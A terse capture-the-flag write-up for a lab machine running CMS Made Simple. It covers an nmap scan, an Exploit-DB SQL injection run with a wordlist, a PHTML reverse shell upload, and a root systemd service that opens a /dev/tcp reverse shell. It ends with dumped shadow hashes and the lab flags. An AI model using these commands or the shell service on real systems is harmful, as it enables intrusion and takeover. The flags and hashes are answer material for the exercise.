# SIMPLE



## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9b:f9:a1:47:41:5f:d4:5c:97:33:55:26:ce:43:8f:2e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqzUDYRfkRl4wQmBp5mKTHBE93BmoWbbfpyScuYXqIDzvWxXm1eI7qOQK/eiuHfQ1mFB+B9F1HWZIIN/46lcVn9SHBWHXlzWfllcMr3OhSlvFb7b0AcKuaB31RKzAz9EQyDSzqNYuln9GSB44yz1mS3wj8a8HnWn/tmo1nj+vfSF1Dar9E9J7iO/iWXN39jisTUZvWfe7TUKeljRSStc7DeDIQ/hqXf8v+3/peEmN3r3YSpzer3OsgSoz6ALRhVBmDqsP5klfJ9ZANPdS1zTbEsCrNbgGESfhafHZyN5fg4pN3h1Qkr6hTyiX8X6ma15C9OXYToYsKl0DMOvRW/Cwd
|   256 40:68:53:3d:c0:3a:dc:ce:67:21:5b:68:33:68:04:83 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDbIPDOPFSpQ//djAzK0DjjdgVYa0CQK5YiCqPwRzxuvMiBAMyTxeoQeJS0fQT0nUEeDJti0BeojvPjq5d8uGg0=
|   256 12:13:a9:6f:66:ba:78:de:0a:9e:2f:ad:90:02:4e:59 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAYOQKm+KfbqNONMH9YqX5h09EkjpBsb6N1vNArSvclv
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 551E34ACF2930BF083670FA203420993
|_http-generator: CMS Made Simple - Copyright (C) 2004-2020. All rights reserved.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home - Simple
```

## PORT 80 ENUMERATION





## EXPLOIT

* [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)

```text
python2 46635.py -u http://172.31.1.2 -w /opt/passwd/rockyou.txt -c
```



### LOGIN





* MAYBE OTHER FORM OF EXPLOIT


### UPLOAD REVERSE SHELL / PHTML







## LINPEAS FINDINGS





## PRIVESC

* CREATE A FILE SERVICE

```text
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.0.63/5314 0>&1'

[Install]
WantedBy=multi-user.target
```

* UPLOAD TO VICTIM MACHINE IN /etc/systemd/system
* START THE SERVICE





## CREDS

```text
root:$6$oUKquZ7c$FwuVG5MBGg0o7bnwzqR0hU6QXnDIGWt6JBfNGPv.fNjUinBCbDFKh/dcIJ1inhR/1BMVfmpDSiHuL9LZ7A6180:18301:0:99999:7:::
david:$6$v05ml13Y$U.mN1abUwDacW.KX1HdIGf7Vy3hQWeY9DFkk06Sc0AughHhd7M6j2VVDOA3zudnTuQv.5fVwOmdt6OYWz/I3H1:18301:0:99999:7:::
```

## FLAGS

### USER

```text
dbe6218bdc74df7e7529dd4641629bb5
```

### ROOT

```text
c20f32787812a86c23e91fd0a0c069a1
```


